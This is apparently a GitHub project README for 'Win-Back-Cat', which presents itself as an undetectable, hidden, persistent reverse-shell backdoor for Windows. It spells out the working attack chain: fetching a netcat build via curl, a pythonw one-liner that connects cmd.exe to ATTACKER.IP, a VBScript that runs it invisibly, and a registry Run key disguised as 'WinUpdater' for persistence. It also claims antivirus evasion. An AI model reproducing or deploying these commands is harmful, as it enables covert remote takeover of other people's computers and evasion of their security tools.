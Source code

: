 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Bug</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />
<br />

### Prerequisites:

- Python should be preinstalled on latest versions of Windows, check by running `python --version` on command prompt (Install it if missing).

<br />
<br />

### Breakdown:

<br />

- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the more common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />

- `-e filename`: specify `filename` to exec after connect (use with caution). Connects STDIN and STDOUT to the specified file.

<br />

In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.

<br />

#### Pythonw - Undetected

<br />

- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden
<br />
`Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.
- Remember to edit `ATTACKER.IP` for the reverse shell to work.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)

